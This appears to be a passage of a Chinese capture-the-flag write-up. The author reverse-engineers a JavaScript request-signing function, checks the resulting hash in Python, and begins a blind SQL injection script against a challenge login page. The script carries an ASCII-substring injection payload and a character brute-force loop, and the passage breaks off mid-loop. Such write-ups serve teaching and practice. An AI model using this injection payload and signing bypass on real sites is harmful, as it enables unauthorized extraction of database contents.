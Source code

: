 ```
		}).appendTo('#' + 'f' + 'r' + 'm' + 'l' + 'o' + 'g' + 'i' + 'n');
	});
});

function sign (data, key) {
    var privateKey
    var i, j
    var W = new Array(80)
    var A, B, C, D, E
    var H0 = 0x97B5D3F1
    var H1 = 0x1F3D5B79
    var H2 = 0x684A2C0E
    var H3 = 0xE0C2A486
    var H4 = 0x33221100
    var H5 = 0xF0F0F0F0
    var temp
    var _RSA = function (n, s) {
        var t4 = (n << s) | (n >>> (32 - s))
        return t4
    }
    var _Rot = function (val) {
        var str = ''
        var i
        var v
        for (i = 7; i >= 0; i--) {
            v = (val >>> (i * 4)) & 0x0f
            str += v.toString(16)
        }
        return str
    }
    //前面都是废话，只有这里调用了参数
    str = unescape(encodeURIComponent(key + data))
    ...
```

用Python验证这个方法，与抓包显示一致

```
import hashlib

str="YTY0YjM0Y2RhZTZiMjliZjFjOTQxOD==admin123"
print(hashlib.sha1(str).hexdigest())
//16fba050a134988ddff375d83ce4c18750f93870
```

最终盲注脚本
```
import hashlib
import string
import requests

def sha1(s):
    s = "YTY0YjM0Y2RhZTZiMjliZjFjOTQxOD==" + s
    return hashlib.sha1(s).hexdigest()

url = 'http://b7bb9d7701ed444ca2a1fa62ed1375a17b58727eba0b48c4.changame.ichunqiu.com/login.php'

headers = {
    "Content-Type": 'application/x-www-form-urlencoded'
}

temp = ''
for i in xrange(1, 50):
    for p in xrange(32, 126+1):
        # payload = " 'or ascii(substr((database()), {}, 1)) = {}%23".format(i, p)
```